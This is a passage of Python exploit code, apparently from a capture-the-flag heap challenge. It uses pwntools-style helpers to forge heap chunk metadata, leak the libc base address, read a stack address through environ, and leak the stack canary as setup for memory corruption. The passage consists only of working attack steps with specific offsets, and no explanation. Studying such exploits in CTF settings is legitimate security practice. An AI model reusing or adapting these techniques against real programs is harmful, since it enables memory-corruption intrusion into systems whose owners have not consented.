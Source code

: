 ```python

    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(heap_base + 0x4c0) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #12 -> 0x70 chunk
    show(11)
    ru("note \"")
    libc_base = u64(rv(6).ljust(8, b'\x00')) - 0x209b20
    lg("libc_base", libc_base)

    logout()
    login("a"*31, p8(0x40)*8)

    environ = libc_base + 0x20a6e0
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(heap_base + 0x470) # org
    payload += p64(environ) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #13
    logout()
    login('a'*31, p8(0x22)*8)
    show(11)
    ru("note \"")
    stack_addr = u64(rv(6).ljust(8, b'\x00'))
    lg("stack_addr", stack_addr)

    canary_addr = libc_base - 0x2898
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(canary_addr+1) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #14
    show(11)
    ru("note \"")
    canary = u64(rv(7).rjust(8, b'\x00'))
    lg("canary", canary)

    add(b'a'*6, b'b'*8, b'c'*0xe6) #15 -> 0x100 chunk
    dele(15)

    logout()
```